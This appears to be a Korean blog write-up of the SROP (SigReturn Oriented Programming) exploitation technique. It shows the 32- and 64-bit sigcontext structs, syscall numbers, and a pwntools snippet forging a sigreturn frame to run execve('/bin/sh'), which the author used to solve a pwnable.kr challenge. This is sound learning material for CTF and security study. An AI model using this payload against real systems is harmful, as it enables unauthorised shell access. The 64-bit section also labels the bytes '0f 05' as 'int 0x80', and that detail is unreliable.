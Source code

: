 ```yaml
---
title: SROP - SigReturn Oriented Programming
date: 2018-09-24 14:19:53
categories:
- Stack Exploit
- Exploit Tech
tags:
- Sigreturn Oriented Programming
---
```


sigreturn syscall:: signal을 받은 프로세스가 커널모드에서 유저모드로 복귀할때 사용하는 system call



## 32bit sigcontext

```c
struct sigcontext {
             unsigned short gs, __gsh;
             unsigned short fs, __fsh;
             unsigned short es, __esh;
             unsigned short ds, __dsh;
             unsigned long edi;
             unsigned long esi;
             unsigned long ebp;
             unsigned long esp;
             unsigned long ebx;
             unsigned long edx;
             unsigned long ecx;
             unsigned long eax;
             unsigned long trapno;
             unsigned long err;
             unsigned long eip;
             unsigned short cs, __csh;
             unsigned long eflags;
             unsigned long esp_at_signal;
             unsigned short ss, __ssh;
             struct _fpstate *fpstate;
             unsigned long oldmask;
             unsigned long cr2;
};
```

int 0x80: cd 80

sigreturn sysnum: 119

execve sysnum: 11



## 64bit sigcontext

```c
struct sigcontext {
        unsigned long r8;
        unsigned long r9;
        unsigned long r10;
        unsigned long r11;
        unsigned long r12;
        unsigned long r13;
        unsigned long r14;
        unsigned long r15;
        unsigned long rdi;
        unsigned long rsi;
        unsigned long rbp;
        unsigned long rbx;
        unsigned long rdx;
        unsigned long rax;
        unsigned long rcx;
        unsigned long rsp;
        unsigned long rip;
        unsigned long eflags;           /* RFLAGS */
        unsigned short cs;
        unsigned short gs;
        unsigned short fs;
        unsigned short __pad0;
        unsigned long err;
        unsigned long trapno;
        unsigned long oldmask;
        unsigned long cr2;
        struct _fpstate *fpstate;       /* zero when no FPU context */
        unsigned long reserved1[8];
};
```

int 0x80: 0f 05

sigreturn sysnum: 15

execve sysnum: 59



## Pwntools code

```python
frame = SigreturnFrame(arch="amd64")
frame.rax = 0x3b # execve syscall
frame.rdi = binsh
frame.rip = syscall
frame.rsp = syscall

payload += p64(0xf) # sigreturn syscall
payload += p64(syscall)
payload += str(frame)
```

rip, rax control이 가능해야하고 int 0x80 gadget, "/bin/sh"가 있어야 한다.



------



![srop](https://user-images.githubusercontent.com/36659181/45950611-8a423b80-c03b-11e8-9cec-ea3e1199f9c2.PNG)



srop로 pwnable.kr unexploitable을 풀었다! 확실히 점수에 비해 solver가 엄청많다ㅋㅋㅋ

orange처럼 struct만 맞춰주면 익스는 쉬워서 그런듯.. 진짜 빨리 풀었다ㅋㅋ

그래도 지금까지 푼 문제중에 제일 점수가 높아서 뿌듯ㅎㅎ



------

reference

    http://bashsi.tistory.com/entry/SROP-SigReturn-Oriented-Programming
    https://www.lazenca.net/pages/viewpage.action?pageId=16810357
